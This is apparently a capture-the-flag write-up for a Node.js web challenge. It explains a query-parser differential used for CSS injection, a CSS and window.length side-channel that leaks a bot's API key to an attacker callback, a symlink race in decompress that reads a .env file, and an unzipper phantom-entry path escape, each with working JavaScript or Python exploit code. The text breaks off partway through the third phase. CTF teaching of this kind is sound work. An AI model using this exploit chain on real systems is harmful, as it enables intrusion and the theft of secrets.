



<font size='10'>Archonyx</font>

11<sup>th</sup> June 2026

Prepared By: `mushroomwasp`

Challenge Author(s): `mushroomwasp`

Difficulty: <font color='orange'>Medium</font>

<br><br>

# Synopsis

Archonyx chains a CSS side-channel oracle against a bot session with three independent package-level vulnerabilities in `decompress@4.2.1`, `unzipper@0.12.3`, and `less@4.2.0` to achieve remote code execution. An unauthenticated attacker exploits a `qs`-vs-`URLSearchParams` parsing differential to inject CSS into a `innerHTML` sink, uses CSS attribute selectors paired with a cross-origin `window.length` oracle to brute-force a bot's API key character by character, races a `decompress` symlink to read the server's `.env` file, plants a hidden JavaScript payload through an `unzipper` central-directory-vs-streaming parser disagreement, forges a `ledgermaster` JWT, and triggers Less CSS's `@plugin` directive to execute the planted file with full `require('child_process')` access. The flag is read by the setuid `/readflag` binary.

## Description

House Veyr & Co. runs the convoy ledger the whole coast trusts — what's safe, what's late, which ports are worth the risk. It's a weapon. Quietly, with no armies, Veyr cooks the numbers: stalling Damas Marrowcairn's cargo, leaking his routes, clearing its own convoys first, until the coast writes him off as a man nobody wants to ship with. Finish him, and Veyr owns every port that matters — it decides who eats and who starves, and sells that power to the highest bidder, Vaultrune included. Stormbound needs Eastreach open to move food, medicine, and steel to Crownspire; those ports are the only ones deep enough to feed the capital, and the coalition can win every battle and still lose the war if the coast stays shut. Damas won't move for charity or fine speeches — only for proof his rival turned the ledger against him. Veylen's people found the thread; you pull it. Break into the ledger, trace the false delays, and dig out the one convoy Veyr buried deep — the shipment that proves it all. Put it in Damas's hand, and let greed do what honor could not.

## Skills Required

- JavaScript and Node.js source-code review
- Understanding of ZIP binary format internals (local headers, central directory, EOCD)
- CSS injection and cross-origin side-channel techniques
- Race condition exploitation via asynchronous post-response validation

## Skills Learned

- Bypassing server-side allowlist validation through a `qs` / `URLSearchParams` parameter-parsing differential
- Exfiltrating a secret cross-origin with a CSS attribute-selector and `window.length` side-channel oracle
- Arbitrary file read via a symlink race in `decompress`
- Path traversal through a ZIP central-directory versus streaming parser mismatch in `unzipper`
- Remote code execution via Less `@plugin` loading of an attacker-planted file

# Challenge Overview

The target is the **Eastreach Convoy Ledger** — House Veyr's platform for clearing and tracking cargo convoys along the coast; whatever it marks *cleared* is what every port trusts. The application is built around three roles:

- **Broker** — registers openly but stays **pending** until a Ledgermaster clears the account, then files manifests and fetches cargo.
- **Warden** — an automated bot account that reviews reported links by visiting them, and holds an API relay key.
- **Ledgermaster** — the operator: clears brokers and edits the **Seal Template**, a Less/CSS template compiled server-side.

The **Ledger Floor** dashboard centres on an interactive map of the coast — convoy ships sail the river toward Crownspire, and a Ledgermaster can click a ship to clear or hold it — flanked by the **Convoy Register** (Filed / Detained / Certified) and **Port Bulletins**.



The **Lodge a Manifest** page accepts a convoy bundle — an image or a `ZIP` — uploaded directly or relayed from a remote station by URL.



The **Report** form submits a dispute with an optional link, which the warden bot then visits — the foothold the exploit abuses. Finally, the Ledgermaster's **Seal Template** editor compiles an operator-supplied Less template.



# Enumeration

The challenge presents a nautical, harbor-themed web application: the Eastreach Convoy Ledger. Registration is open but new accounts start in a pending state until they get certified.

The source code is provided. It has role-based access control with three tiers: `broker`, `warden`, and `ledgermaster`.

## Analyzing the source code

The challenge ships quite a few files, but some stand out immediately:

- `routes/api.js`: API routes for key retrieval, file uploads, and vault access.
- `routes/pages.js`: page renders including the dashboard, report form, and widget iframes.
- `routes/admin.js`: ledgermaster routes gated by `requireRole('ledgermaster')`.
- `controllers/apiController.js`: upload handling, file serving, and the URL-based download endpoint.
- `controllers/adminController.js`: the Less CSS compiler endpoint.
- `controllers/pageController.js`: dashboard rendering with theme validation, and the bot-triggering report handler.
- `services/uploadService.js`: archive validation, extraction, and post-extraction cleanup.
- `services/bot.js`: Puppeteer bot that visits user-submitted URLs as the warden account (`bot`).
- `middleware/security.js`: CSP with nonce-based script-src and `style-src 'unsafe-inline'`.
- `middleware/resolveAuth.js`: dual-path authentication: `X-Api-Key` header or JWT cookie.

The first thing that catches the eye is the report form: it triggers a Puppeteer bot that authenticates as the `bot` account (role `warden`, holding an API key) and stays alive for 60 seconds:

```javascript
// services/bot.js
async function visit(url) {
  const token = jwt.sign({ username: 'bot', role: 'warden' }, jwtSecret);
  // ...
  await page.setCookie({ name: 'token', value: token, url: `http://${appHost}:${port}/`, httpOnly: true });
  await page.goto(url, { waitUntil: 'load', timeout: 10000 });
  await new Promise(r => setTimeout(r, 60000));
}
```

The bot launches Chromium with `--disable-popup-blocking`, visits our URL authenticated as a warden, and stays alive for 60 seconds. The cookie is `httpOnly`: no reading it with JavaScript. But looking at the API routes, there's a `GET /api/relay-key` endpoint that returns the caller's API key. That key authenticates file upload and vault access endpoints. Stealing it would give us warden-level API access without needing the cookie itself.

The dashboard validates a `?theme=` parameter server-side against an allowlist, then renders it client-side through `innerHTML`:

```javascript
// controllers/pageController.js:9-16
exports.dashboard = (req, res) => {
  if (!req.user) return res.redirect('/enter');
  const theme = req.query.theme;
  if (theme && !allowedThemes.includes(theme)) {     // server validates theme
    return res.status(400).send('Invalid theme');
  }
  res.render('ledger', { user: req.user, query: req.query });
};
```

```javascript
// views/ledger.ejs:212-216
var params = new URLSearchParams(window.location.search);  // browser re-parses the URL
var theme = params.get('theme');
if (theme) {
  document.getElementById('theme-display').innerHTML = theme;  // innerHTML sink!
}
```

Notice that the server checks `req.query.theme` (parsed by Express's `qs` library) while the client reads `URLSearchParams.get('theme')` from the raw URL. These two parsers don't always agree: and that gap is exploitable.

The CSP blocks injected scripts (nonce-based `script-src`) but allows inline styles:

```javascript
// middleware/security.js
res.setHeader('Content-Security-Policy',
  `default-src 'self'; script-src 'nonce-${nonce}'; style-src 'unsafe-inline' 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; frame-ancestors 'self'; form-action 'self'; base-uri 'self'`
);
```

Scripts won't execute without the nonce, but `<style>` tags will be processed. That matters because of what the certification log iframe does: it writes API response data to the parent page's `data-content` attribute:

```javascript
// views/transmission-log.ejs:27-43
function load(record) {
  fetch('/api/feed/' + record + '.json', { credentials: 'include' })
  .then(function(r) { return r.json(); })
  .then(function(res) {
    var value = res.data || '';
    document.getElementById('report-data').textContent = value;
    var panel = window.parent.document.getElementById('info-panel');
    if (panel) panel.setAttribute('data-content', value);  // value goes into a DOM attribute!
  })
```

The `record` parameter is controllable via the query string passed through to the iframe src:

```html
<!-- views/ledger.ejs:196 -->
<iframe id="frame-log" src="/widget/convoy-log?record=<%= (query && query.record) || 'held' %>">
```

The `record` parameter controls what the iframe fetches, and the result ends up in a `data-content` attribute on the parent page. If `record` can be pointed at the API key endpoint, and CSS attribute selectors can detect the value character by character: that's a side-channel.

The admin panel exposes a Less CSS compiler at `POST /ledgermaster/render`, gated behind `requireRole('ledgermaster')`:

```javascript
// controllers/adminController.js:53-69
exports.setCertificationTemplate = async (req, res) => {
  if (!req.is('application/json')) {
    return res.status(415).json({ error: 'Content-Type must be application/json' });
  }
  const { css } = req.body;
  if (!css) return res.status(400).json({ error: 'No seal design provided' });
  if (css.length > MAX_TEMPLATE_SIZE) {
    return res.status(400).json({ error: 'Seal design too large' });
  }
  try {
    await less.render(css, { plugins: [templateSecurityPlugin] });
    res.json({ data: 'Seal cast' });
  } catch (e) {
    res.status(500).json({ error: 'Seal casting failed' });
  }
};
```

A `less.render()` call on attacker-controlled input: but only reachable as `ledgermaster`. That's the endgame, but getting there requires several intermediate steps.

The upload service uses two different `unzipper` APIs in sequence: `Open.buffer()` for validation, `Extract()` for extraction: and defers post-extraction cleanup via `setImmediate()`:

```javascript
// services/uploadService.js:16-38
async function validateArchive(buffer) {
  const directory = await unzipper.Open.buffer(buffer);  // reads central directory
  for (const entry of directory.files) {
    const ext = path.extname(entry.path).toLowerCase();
    if (!allowedImageExt.includes(ext)) throw new Error('only image marks are allowed in bundles');
    if (entry.path.includes('..')) throw new Error('archive contains an invalid path');
    const buf = await entry.buffer();
    const type = await fromBuffer(buf);
    if (!type || !allowedImageMime.includes(type.mime)) throw new Error('only image marks are allowed in bundles');
  }
}

async function extractArchive(buffer, extractDir) {
  fs.mkdirSync(extractDir, { recursive: true });
  await new Promise((resolve, reject) => {
    const stream = new PassThrough();
    stream.end(buffer);
    stream.pipe(unzipper.Extract({ path: extractDir }))  // streaming extraction
      .on('close', resolve)
      .on('error', reject);
  });
}
```

Two different parsers on the same ZIP buffer: one for validation, one for extraction. They don't necessarily agree on what's inside.

The URL-based download path uses `download@8.0.0` (which depends on `decompress@4.2.1`) and defers validation:

```javascript
// services/uploadService.js:40-43
async function downloadAndExtract(url, extractDir) {
  fs.mkdirSync(extractDir, { recursive: true });
  await download(url, extractDir, { extract: true });
}

// controllers/apiController.js:59-81
exports.uploadUrl = async (req, res) => {
  const extractDir = uploadService.getUrlExtractDir(req.caller.drawsId);
  try {
    await uploadService.downloadAndExtract(url, extractDir);
    res.json({ data: 'Mirror station bundle fetched and lodged' });
    setImmediate(() => uploadService.validateExtractedFiles(extractDir));  // cleanup AFTER response!
  } catch (e) {
    res.status(500).json({ error: e.message });
  }
};
```

The response is sent before validation runs. That `setImmediate()` creates a race window: extracted files exist on disk but haven't been checked yet.

Putting these observations together, the attack path has four stages:
1. Get the bot's API key (the warden can access upload/consignments endpoints)
2. Get the JWT secret (to forge a `ledgermaster` token)
3. Plant a malicious file on the server
4. Trigger code execution through the Less compiler


# Solution

## Phase 1: Stealing the API key via CSS oracle

### The parsing differential

Express supports two query parser modes. The application explicitly sets `extended` mode in `app.js`:

```javascript
app.set('query parser', 'extended');
```

In `extended` mode, Express delegates query string parsing to the [`qs` library](https://github.com/ljharb/qs). `qs` treats bracket syntax as object notation: a key containing `[` and `]` is parsed as a nested object property rather than a literal key name. The browser's `URLSearchParams` has no such behavior: it treats the entire key literally.

> **Further reading:** The `qs` library's [parsing documentation](https://github.com/ljharb/qs#parsing-objects) explains how bracket notation works.

This creates a parsing differential. Given the URL:

```
/ledger?theme=<PAYLOAD>%5D=1&theme=dark
```

Each parser sees something different:

- **Express/qs**: sees `theme<PAYLOAD>]` as an object key (the `]` without preceding `[` is consumed into the key name), and `theme=dark` as a separate top-level key. So `req.query.theme` resolves to `'dark'`: which passes the allowlist check.
- **Browser URLSearchParams**: `.get('theme')` returns the **first** `theme=` value: `<PAYLOAD>]=1`: our injected content.

The server check `allowedThemes.includes('dark')` passes. But the client-side `innerHTML` receives `<PAYLOAD>]=1`. We've bypassed the server-side validation.

### Building a CSS oracle

We have CSS injection but no script execution. That's enough. CSS attribute selectors can match on partial attribute values: the `^=` selector matches the beginning of an attribute:

```css
div[data-content^="a"] { background: url(/some-endpoint) }
```

If a `div` with `data-content` starting with `"a"` exists, the browser fires a request to `/some-endpoint`. If the attribute doesn't match, no request is made. One bit of information per CSS rule: a boolean oracle.

The convoy-log iframe already writes API data into the parent page's `data-content` attribute. The missing piece is making `record` point to the API key endpoint:

```
?record=../relay-key%3F
```

The iframe's fetch becomes `fetch('/api/feed/../relay-key?.json')`. The `?` terminates the path and starts a query string, so the request resolves to `/api/relay-key`: the authenticated endpoint that returns the bot's API key. The key lands in `#info-panel[data-content]`, right where CSS can reach it:

```css
div[data-content^="a"] { background: url(/some-endpoint) }
```

Since you can't fetch external link, we must find another way to determine if the CSS triggered. The answer is `/depart`. How will it be useful to us?

You notice in the page you have 2 iframes when logged in. However after you are log out and redirected to `/enter`, you have 0 iframes. So we can use `window.length` to determine if the CSS triggered.

```css
div[data-content^="a"] { background: url(/depart) }
```

If the key starts with `a`, the browser fetches `/depart`: the logout endpoint: and the bot's session is destroyed. If it doesn't match, nothing happens.

### Cross-origin detection via `window.length`

`window.length` returns the number of frames (iframes) in a window, and it's readable cross-origin. The archive page contains 2 iframes when logged in; after logout and redirect to `/enter`, it contains 0.

> **Further reading:** Cross-origin frame counting via `window.length` is documented in [xsleaks.dev's frame counting wiki](https://xsleaks.dev/docs/attacks/frame-counting/), which catalogs various cross-origin state detection techniques.

So the oracle works like this:

1. Open a popup to the archive URL with CSS injection targeting one character guess
2. Wait for the iframe to populate `data-content` with the API key
3. Navigate the popup to a clean `/ledger`
4. Read `popup.length`:
   - `0` -> CSS matched -> character found (bot was logged out)
   - `2` -> still logged in -> no match -> try next character

Repeat for each position across the hex charset `0-9a-f` to recover the full 12-character API key.

### Exploitation

The bot is triggered via `POST /report` with a URL pointing to the attacker's HTTP server. The server returns an HTML page that orchestrates the oracle:

```javascript
// Oracle page served to bot: runs in Chromium
function dashUrl(c) {
  // Build a URL that injects a CSS rule testing whether data-content starts with (known_prefix + c)
  // The %5D=1&theme=dark suffix exploits the qs/URLSearchParams differential to bypass server validation
  var css = '<style>div[data-content^="'+P+c+'"]{background:url('+T+'/depart)}</style>';
  return T+'/ledger?record=../relay-key%3F&theme='+encodeURIComponent(css)+'%5D=1&theme=dark';
}

function tryChar(i) {
  var c = CS[i];          // current character guess from the hex charset
  var pop = window.open(dashUrl(c), '_blank');  // open popup with CSS oracle for this guess
  setTimeout(function(){
    pop.location.href = T + '/ledger';         // navigate to clean archive to check frame count
    setTimeout(function(){
      var f = pop.length;   // cross-origin readable! 0 = logged out (match), 2 = still in (no match)
      pop.close();
      if (f === 0) fetch(A + '/callback?found=' + c);   // report the found character
      else tryChar(i + 1);                               // wrong guess, try next character
    }, 1500);
  }, 3000);
}
```

The attacker's server receives callbacks with each discovered character and assembles the full key.

## Phase 2: Leaking the JWT secret via decompress symlink race

The API key gives us access to upload and vault endpoints: but the goal is `ledgermaster`, and for that we need the JWT secret stored in `/app/.env`. How do we read a file outside the web root?

The URL-based download path (`POST /api/fetch`) uses `decompress@4.2.1` to extract archives. Looking at how it handles symlink entries reveals the answer.

### The vulnerability: `decompress@4.2.1`: unvalidated symlink target

**Source file:** `node_modules/decompress/index.js`

The `decompress` package handles extraction of ZIP and TAR archives. When processing extracted entries, it distinguishes between files, directories, links, and symlinks. Let's read the critical code path in the `extractFile` function:

```javascript
// node_modules/decompress/index.js:96-122
.then(realOutputPath => {
  // IMPORTANT: this guard only runs for type === 'file'
  // It checks if the destination path traverses through an existing symlink
  // This is meant to prevent writing file contents through a malicious symlink
  if (x.type === 'file') {
    return preventWritingThroughSymlink(dest, realOutputPath);
  }

  // For ALL other types (symlink, link, directory): no validation at all!
  return realOutputPath;
})
.then(() => {
  if (x.type === 'link') {
    return fsP.link(x.linkname, dest);    // hard link: also unvalidated, but less useful
  }

  if (x.type === 'symlink' && process.platform === 'win32') {
    return fsP.link(x.linkname, dest);    // Windows fallback: uses hard link instead
  }

  if (x.type === 'symlink') {
    // HERE: creates a symlink where x.linkname is the TARGET and dest is where the link is placed
    // x.linkname comes directly from the archive entry: completely attacker-controlled
    // No check on whether linkname points outside the extraction directory
    // No check on whether it's an absolute path
    // No check on whether the target even exists
    return fsP.symlink(x.linkname, dest);
  }

  return fsP.writeFile(dest, x.data, {mode});
})
```

The `preventWritingThroughSymlink` guard at the top only runs for `type === 'file'`. When the entry type is `'symlink'`, the code jumps straight to `fsP.symlink(x.linkname, dest)`: creating a symlink with `x.linkname` taken directly from the archive entry **without any validation** of where it points.

Compare this to the `safeMakeDir` function earlier in the same file, which does validate directory paths:

```javascript
// node_modules/decompress/index.js:22-35
const safeMakeDir = (dir, realOutputPath) => {
  return fsP.realpath(dir)
    .catch(_ => {
      const parent = path.dirname(dir);
      return safeMakeDir(parent, realOutputPath);
    })
    .then(realParentPath => {
      // Directories get this check: is the resolved path inside the output directory?
      if (realParentPath.indexOf(realOutputPath) !== 0) {
        throw (new Error('Refusing to create a directory outside the output path.'));
      }
      return makeDir(dir).then(fsP.realpath);
    });
};
```

Directories are validated against the output path. Symlinks are not. The asymmetry is the vulnerability: they hardened one path type and forgot another.

### Winning the race

The challenge's `/api/fetch` endpoint calls `download(url, extractDir, { extract: true })`, which internally uses `decompress`. After extraction completes, the response is sent immediately, and `validateExtractedFiles` runs on the next event loop tick via `setImmediate()`. That cleanup function will delete non-image files: including our symlink. But there's a window between extraction finishing and cleanup running, and we can widen it by padding the ZIP. A ZIP with 120 padding PNG files (~512KB each, totaling ~60MB) followed by a symlink entry `z_link -> /app/.env` creates a significant extraction time. The symlink is the last entry, so it's written near the end of extraction. But the padding images slow down the overall operation, and the deferred `setImmediate()` cleanup only starts after the entire extraction completes and the response is sent.

During this window, polling `GET /api/cargo/z_link/raw` with the stolen API key reads the symlink. Node.js `fs.promises.readFile()` follows symlinks by default: it returns the contents of `/app/.env`, which contains `JWT_SECRET`.

The symlink ZIP is built in Python using the standard `zipfile` module. The symlink entry is created by setting `create_system = 3` (Unix) and encoding the Unix file type `0o120777` (symlink) in the external attributes:

```python
PIXEL_PNG = (
    b'\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01'
    b'\x08\x02\x00\x00\x00\x90wS\xde\x00\x00\x00\x0cIDATx\x9cc\xf8\x0f\x00'
    b'\x00\x01\x01\x00\x05\x18\xd8N\x00\x00\x00\x00IEND\xaeB`\x82'
) + b'\x00' * (512 * 1024)  # padded to ~512 KB to widen the race window


def make_symlink_zip(name, target, padding=120):
    buf = io.BytesIO()
    zf  = zipfile.ZipFile(buf, 'w', zipfile.ZIP_STORED)
    for i in range(padding):                 # 120 × 512 KB ≈ 60 MB -> long extraction time
        zf.writestr(f'a_{i:03d}.png', PIXEL_PNG)
    zi = zipfile.ZipInfo(name)
    zi.create_system = 3                     # Unix
    zi.external_attr = 0o120777 << 16        # symlink file type
    zf.writestr(zi, target)                  # entry data = symlink target path
    zf.close()
    return buf.getvalue()


sym_zip = make_symlink_zip('z_link', '/app/.env')
```

`decompress` reads the `external_attr` field and the Unix file type bits to determine the entry type. When it sees `0o120000` in the high bits it calls `fsP.symlink(x.linkname, dest)` with `x.linkname` set to the entry's data (`/app/.env`): creating `z_link -> /app/.env` with no target validation.

## Phase 3: Planting the payload via unzipper phantom entry

We have the API key and the JWT secret: enough to forge a `ledgermaster` token and reach the Less compiler endpoint. But RCE through Less requires a JavaScript file on the server's filesystem that we control. The upload endpoint (`POST /api/manifest`) validates archives and only allows image files. How do we sneak a `.js` file past validation?

The answer is in the gap between the two parsers: `Open.buffer()` for validation, `Extract()` for extraction.

### The vulnerability: `unzipper@0.12.3`: central directory vs. streaming parser disagreement

A ZIP file has two "tables of contents." The local file headers appear sequentially before each file's data, and the central directory at the end of the file lists all entries again. Legitimate ZIP tools write both in sync: but nothing in the format enforces it.

**`unzipper.Open.buffer()`** (used for validation) seeks to the end of the file, reads the End of Central Directory record, and iterates entries listed in the **central directory**. It only sees what the manifest claims.

**`unzipper.Extract()`** (used for extraction) is a streaming parser. It reads sequentially from byte 0, processing every `PK\x03\x04` local file header it encounters, regardless of whether it appears in the central directory.

> **Further reading:** The ZIP format specification ([APPNOTE.TXT from PKWARE](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)) documents both the local header and central directory structures.

**Source file:** `node_modules/unzipper/lib/parse.js`

The streaming parser's `_readFile` method processes local headers as they appear in the byte stream:

```javascript
// node_modules/unzipper/lib/parse.js:91-106
Parse.prototype._readFile = function () {
  const self = this;
  // Pull exactly 26 bytes: the fixed-size portion of a local file header
  // (after the 4-byte PK\x03\x04 signature which was already consumed)
  return self.pull(26).then(function(data) {
    const vars = parseBuffer.parse(data, [
      ['versionsNeededToExtract', 2],   // minimum ZIP version to extract
      ['flags', 2],                      // bit flags: bit 3 means sizes are in a data descriptor
      ['compressionMethod', 2],          // 0=stored, 8=deflated
      ['lastModifiedTime', 2],
      ['lastModifiedDate', 2],
      ['crc32', 4],
      ['compressedSize', 4],             // if flags bit 3 is set, this may be 0
      ['uncompressedSize', 4],
      ['fileNameLength', 2],             // how many bytes to read for the filename
      ['extraFieldLength', 2],           // how many bytes of extra data follow the filename
    ]);
    // The parser then reads fileNameLength bytes for the name,
    // extraFieldLength bytes of extra data, and proceeds to read
    // the file's compressed data...
```

How does it know where one entry's data ends and the next begins? It checks the flags field:

```javascript
// node_modules/unzipper/lib/parse.js:175-206

// If bit 3 of flags is NOT set, or if compressedSize is already known (>0),
// the parser knows the exact byte length of the compressed data
const fileSizeKnown = !(vars.flags & 0x08) || vars.compressedSize > 0;

if (fileSizeKnown) {
  // Read exactly compressedSize bytes, then look for the next PK signature
  entry.size = vars.uncompressedSize;
  eof = vars.compressedSize;
} else {
  // Size unknown: scan forward for the data descriptor signature 0x08074b50
  // This 4-byte sentinel marks the end of the compressed data
  eof = Buffer.alloc(4);
  eof.writeUInt32LE(0x08074b50, 0);
}

return new Promise(function(resolve, reject) {
  pipeline(
    self.stream(eof),    // read until eof (either byte count or sentinel)
    inflater,            // decompress
    entry,               // output
    function (err) {
      if (err) {
        return reject(err);
      }
      // After consuming one entry, the main loop returns to look for
      // the next PK\x03\x04 signature: even if that entry isn't in the central directory
      return fileSizeKnown ? resolve(fileSizeKnown) : self._processDataDescriptor(entry).then(resolve).catch(reject);
    }
  );
});
```

After consuming one entry's data, the parser returns to its main loop and scans for the next `PK\x03\x04` signature. If a phantom local header exists between the last legitimate entry's data and the central directory, the streaming parser extracts it: even though `Open.buffer()` never reported it.

This means we can craft a ZIP where the central directory lists 3 PNG files (passing validation), but the local headers contain a 4th hidden entry: a `.js` file that only the streaming extractor sees. The remaining obstacle is the zip-slip check in the extraction code.

### The zip-slip bypass: `indexOf` string prefix vs. path prefix

The extraction directory is per-user: `/app/uploads/workspace/bot/`. The phantom file needs to land in a predictable path that won't be cleaned up by `validateExtractedFiles` (which only scans the user's own workspace).

**Source file:** `node_modules/unzipper/lib/extract.js`

```javascript
// node_modules/unzipper/lib/extract.js:9-26
function Extract (opts) {
  // Normalize and resolve the target extraction directory to an absolute path
  opts.path = path.resolve(path.normalize(opts.path));

  const parser = new Parse(opts);
  const outStream = new stream.Writable({objectMode: true});
  outStream._write = async function(entry, encoding, cb) {
    // Join the extraction base path with the entry's filename from the ZIP
    // Replace backslashes with forward slashes for Windows compatibility
    const extractPath = path.join(opts.path, entry.path.replace(/\\/g, '/'));

    // ZIP-SLIP CHECK: is the resolved path inside the extraction directory?
    if (extractPath.indexOf(opts.path) != 0) {
      return cb();  // skip this entry: it would escape the target directory
    }

    if (entry.type == 'Directory') {
      await fs.ensureDir(extractPath);
      return cb();
    }

    await fs.ensureDir(path.dirname(extractPath));
    const writer = opts.getWriter ? opts.getWriter({path: extractPath}) : fs.createWriteStream(extractPath);
    entry.pipe(writer)
      .on('error', cb)
      .on('close', cb);
  };
```

The check at line 24 uses `indexOf` for string prefix matching:

```javascript
if (extractPath.indexOf(opts.path) != 0) {
  return cb();  // skip: outside destination
}
```

This looks like it prevents path traversal: but it has a subtle flaw. Consider what happens when the extraction target is `/app/uploads/workspace/bot` and the phantom entry path is `../bot_rce/payload.js`:

```
path.join('/app/uploads/workspace/bot', '../bot_rce/payload.js')
  -> '/app/uploads/workspace/bot_rce/payload.js'

'/app/uploads/workspace/bot_rce/payload.js'.indexOf('/app/uploads/workspace/bot')
  -> 0   (passes the check!)
```

The string `bot_rce` starts with `bot`. The `indexOf` check is a **string** prefix check, not a **path** prefix check. It doesn't verify that a path separator follows the base path. The sibling directory `bot_rce` shares a string prefix with the target `bot`, so the check passes and the file escapes to a sibling directory.

### Exploitation

A phantom ZIP is constructed with 3 legitimate PNG entries in both the local headers and the central directory, plus a hidden local header for `../bot_rce/payload.js` injected between the last local entry's data and the central directory. The EOCD's central directory offset is patched to account for the inserted bytes.

The phantom entry contains the RCE payload: but we'll look at what that payload does in the next phase.

```python
def _local_header(name, data):
    """Build a raw ZIP local file header + data (no central directory entry)."""
    crc = zipfile.crc32(data) & 0xffffffff
    b   = io.BytesIO()
    b.write(b'PK\x03\x04')                              # local file header signature
    b.write(struct.pack('<H', 20))                       # version needed: 2.0
    b.write(struct.pack('<H', 0))                        # flags
    b.write(struct.pack('<H', 0))                        # compression: stored
    b.write(struct.pack('<HH', 0, 0))                    # mod time / date
    b.write(struct.pack('<I', crc))
    b.write(struct.pack('<II', len(data), len(data)))    # compressed / uncompressed size
    b.write(struct.pack('<H', len(name)))
    b.write(struct.pack('<H', 0))                        # extra field length
    b.write(name)
    b.write(data)
    return b.getvalue()


def make_phantom_zip(entry_path, data, padding=3):
    # Step 1: build a normal ZIP with PNG padding entries
    buf = io.BytesIO()
    zf  = zipfile.ZipFile(buf, 'w', zipfile.ZIP_STORED)
    for i in range(padding):
        zf.writestr(f'pad_{i}.png', PIXEL_PNG)
    zf.close()
    raw = bytearray(buf.getvalue())

    # Step 2: locate the EOCD and read the current central directory offset
    eocd = raw.rfind(b'PK\x05\x06')
    _, _, _, _, _, cd_off, _ = struct.unpack_from('<HHHHIIH', raw, eocd + 4)

    # Step 3: splice the phantom local header before the central directory
    # Open.buffer() reads the central directory -> sees only the 3 PNGs -> validation passes
